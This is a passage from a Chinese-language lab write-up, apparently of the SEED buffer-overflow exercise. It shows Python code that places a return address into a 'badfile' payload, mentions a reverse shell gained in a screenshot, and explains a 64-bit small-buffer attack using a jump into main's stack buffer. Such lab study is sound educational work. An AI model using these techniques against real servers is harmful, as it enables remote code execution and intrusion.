 ```python

# Decide the return address value
# and put it somewhere in the payload
ret = 0x00007fffffffe350     # Change this number
offset = 0xD8              # Change this number

content[offset:offset + 8] = (ret).to_bytes(8, byteorder='little')

# for offset in range(100, 304, 4):
    # Use 4 for 32-bit address and 8 for 64-bit address
    # content[offset:offset + 4] = (ret).to_bytes(4, byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)
```

本地测试截图：

<img src="https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012242159.png" alt="image-20220310133216164" style="zoom:80%;" />

reverse shell：

<img src="https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012242757.png" alt="image-20220310133345077" style="zoom:80%;" />



## Task 5: Level-4 Attack

64位 + small buffer size

先随便发信息进行测试：

```terminal
$ echo hello | nc 10.9.0.8 9090
Ctrl+C
```

<img src="https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012242311.png" alt="image-20220310144801362" style="zoom:80%;" />

由于buffer比较小不能像task4那样把shellcode放在buffer里，所以这里需要跳转到main函数中的str[517]中，这里看了`server-code/stack.c`中的代码，调用顺序是`main->dummy_function->bof`，栈上会有dummy_buffer[1000]：

```c
// This function is used to insert a stack frame of size 
// 1000 (approximately) between main's and bof's stack frames. 
// The function itself does not do anything. 
void dummy_function(char *str)
{
    char dummy_buffer[1000];
    memset(dummy_buffer, 0, 1000);
    bof(str);
}
```
